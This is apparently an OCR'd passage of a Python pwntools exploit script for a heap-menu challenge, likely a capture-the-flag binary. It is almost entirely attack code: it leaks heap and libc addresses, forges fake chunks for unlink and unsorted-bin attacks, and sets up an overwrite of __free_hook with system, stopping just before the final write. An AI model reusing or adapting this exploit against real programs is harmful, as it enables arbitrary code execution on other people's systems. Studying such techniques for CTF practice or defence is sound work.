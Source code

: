 ```python
Add(0x60,'5'*0x60)#5
Add(0x3f0,'7'*0x3f0)#6
Add(0x60,  '8'*0x60 )#7
Add(0x3e0, '9'*0x3e0)#8
Add(0x60,  '9'*0x80 )#9
Add(0x3f0, 'a'*0x3d0)#a
Add(0x60-0x18,  'b'*0x30 )#b
Add(0x60-0x18,  'c'*0x30 )#c
Add(0x60-0x18,  'd'*0x30 )#d

Del(8)
Del(0xa)
Del(0)

Add(0x400,'')#1

Show(0xa)
p.recvuntil('description:')
heap_addr=u64(p.recvuntil('\n',drop=True).ljust(8,'\0'))-0x790
success('heap_addr:'+hex(heap_addr))
target_addr=heap_addr+0x130 #2
fchunk1_addr=heap_addr+0xb0 #1
fchunk2_addr=heap_addr+0x1b0 #3
fchunk3_addr=heap_addr+0xc10 #10

success('target_addr:'+hex(target_addr))
success('fchunk1_addr:'+hex(fchunk1_addr))
success('fchunk2_addr:'+hex(fchunk2_addr))
success('fchunk3_addr:'+hex(fchunk3_addr))

Edit(0xa,p64(target_addr))

ftarget=p64(0)*2+p64(0x411)+p64(fchunk1_addr-0x18)+p64(fchunk1_addr-0x10)
ftarget+=p64(fchunk3_addr)+p64(fchunk2_addr)
Edit(2,ftarget)

fake=p64(0)+p64(target_addr)
Edit(1,fake)

fake=p64(0)*2+p64(0x421)+p64(0)*2+p64(target_addr)
Edit(3,fake)
Edit(6,'6'*0x218+p64(0x410)+p64(0x411))

Del(5)
Del(3)

Add(0x3f0,'3'*56)#3
Add(0x60,'')#5
Show(3)
p.recvuntil('3'*56)
libc_base=u64(p.recv(6).ljust(8,'\0'))-0x3c4be8
success('libc_base:'+hex(libc_base))
free_hook=libc.sym['__free_hook']+libc_base
success('free_hook:'+hex(free_hook))
system=libc_base+libc.sym['system']
#unsortbin attack

Del(6)
Del(3)

pay=p64(0)*2+p64(0x411)+p64(heap_addr+0x280)+p64(free_hook-0x48)
Edit(2,pay)
Add(0x3f0,'')
```